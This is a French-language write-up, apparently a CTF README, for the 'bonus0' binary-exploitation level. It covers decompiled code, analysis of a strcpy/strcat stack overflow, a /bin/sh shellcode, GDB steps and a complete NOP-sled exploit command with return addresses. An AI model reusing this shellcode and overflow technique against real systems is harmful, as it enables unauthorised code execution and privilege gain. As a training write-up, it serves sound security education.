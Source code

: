 # Exploit détaillé pour bonus0

## Description du problème

Le binaire bonus0 présente une vulnérabilité de débordement de tampon. Il lit deux entrées utilisateur et les concatène de manière non sécurisée, permettant d'écraser l'adresse de retour sur la pile.

## Caractéristiques du binaire

- Pas de protection RELRO
- Pas de canary sur la pile
- NX désactivé (permet l'exécution de code sur la pile)
- Pas de PIE (les adresses sont prévisibles)

## Code décompilé

```c
void p(char *param_1, char *param_2)
{
  char *pcVar1;
  char local_100c [4104];
  
  puts(param_2);
  read(0, local_100c, 0x1000);
  pcVar1 = strchr(local_100c, 10);
  *pcVar1 = '\0';
  strncpy(param_1, local_100c, 0x14);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];
  
  bVar4 = 0;
  p(local_34, &DAT_080486a0);
  p(local_20, &DAT_080486a0);
  strcpy(param_1, local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
    if (uVar2 == 0) break;
    uVar2 = uVar2 - 1;
    cVar1 = *pcVar3;
    pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(undefined2 *)(param_1 + (~uVar2 - 1)) = 0x20;
  strcat(param_1, local_20);
  return;
}

undefined4 main(void)
{
  char local_3a [54];
  
  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

## Analyse du code

- La fonction `p` lit jusqu'à 4096 octets d'entrée dans un buffer local, puis copie 20 octets dans le paramètre fourni.
- La fonction `pp` appelle `p` deux fois, stockant les résultats dans des buffers locaux de 20 octets chacun.
- `pp` concatène ensuite ces deux buffers dans le paramètre fourni, avec un espace entre eux.
- La fonction `main` appelle `pp` avec un buffer local de 54 octets.

La vulnérabilité principale réside dans le fait que `strncpy` dans `p` ne garantit pas la terminaison de la chaîne, et que `strcpy` et `strcat` dans `pp` peuvent écrire au-delà des limites du buffer `local_3a` dans `main`.

## Shellcode utilisé

```
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

Ce shellcode de 21 octets exécute `/bin/sh`.

[Le reste du README reste inchangé...]

## Structure de l'exploit

1. Première entrée : NOP sled (100 octets) + Shellcode (21 octets)
2. Deuxième entrée : Padding (9 octets) + Adresse de retour (4 octets) + Remplissage (7 octets)

## Importance du NOP sled

Le NOP sled est une série d'instructions "No Operation" (\x90 en hexadécimal) placée avant le shellcode. Son importance est cruciale :

- Chaque NOP ne fait rien et passe à l'instruction suivante.
- Cette série crée une "glissade" vers notre shellcode.
- Peu importe où dans cette glissade on atterrit, on finira par atteindre le shellcode.
- Cette technique augmente considérablement la probabilité de succès de l'exploit, même si l'adresse de retour varie légèrement.

## Étapes détaillées de l'exploitation

1. Analyse du binaire avec GDB :
   ```
   gdb ./bonus0
   (gdb) disass main
   (gdb) disass p
   (gdb) b *p+28
   (gdb) run
   (gdb) x $ebp-0x1008
   ```
   Cela révèle l'adresse du buffer, par exemple 0xbfffe680.

2. Calcul de la plage d'adresses sûre pour le NOP sled :
   - Début : 0xbfffe680 + 61 = 0xbfffe6bd (61 octets pour les arguments et l'espace)
   - Fin : 0xbfffe680 + 100 = 0xbfffe6e4 (100 est la taille du NOP sled)

3. Construction de l'exploit :
   - Première entrée : 
     100 NOPs (\x90) suivis du shellcode de 21 octets
   - Deuxième entrée : 
     9 octets de padding ('A'), adresse de retour, 7 octets de remplissage ('B')

## Commande d'exploitation

```bash
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

## Adresses de retour possibles

- 0xbfffe6d0 (\xd0\xe6\xff\xbf)
- 0xbfffe6c0 (\xc0\xe6\xff\xbf)
- 0xbfffe6e0 (\xe0\xe6\xff\xbf)
- 0xbfffe6a0 (\xa0\xe6\xff\xbf)

Toutes ces adresses sont dans la plage du NOP sled, augmentant les chances de succès de l'exploit.

## Fonctionnement détaillé de l'exploit

1. La première entrée place le NOP sled (100 octets) suivi du shellcode (21 octets) en mémoire.
2. La deuxième entrée écrase l'adresse de retour pour pointer vers une adresse dans le NOP sled.
3. Lors du retour de la fonction, l'exécution saute à l'adresse spécifiée dans le NOP sled.
4. Les instructions NOP sont exécutées une par une, "glissant" jusqu'au shellcode.
5. Le shellcode s'exécute, lançant un shell avec les privilèges de bonus1.

## Pourquoi cela fonctionne

- NX est désactivé, permettant l'exécution de code sur la pile.
- Pas de canary sur la pile, permettant l'écrasement de l'adresse de retour.
- Le grand NOP sled offre une large "cible" pour notre adresse de retour.
- Même si l'adresse varie légèrement, tant qu'elle pointe dans le NOP sled, l'exploit réussira.

## Variabilité et robustesse

- L'adresse exacte peut varier selon l'environnement d'exécution.
- Le NOP sled rend l'exploit plus robuste face à ces variations.
- Tester différentes adresses dans la plage du NOP sled peut être nécessaire.

## Précautions et usage éthique

Cet exploit est fourni uniquement à des fins éducatives et de recherche en sécurité. Ne l'utilisez que sur des systèmes pour lesquels vous avez une autorisation explicite. L'utilisation non autorisée de cet exploit peut être illégale et non éthique.

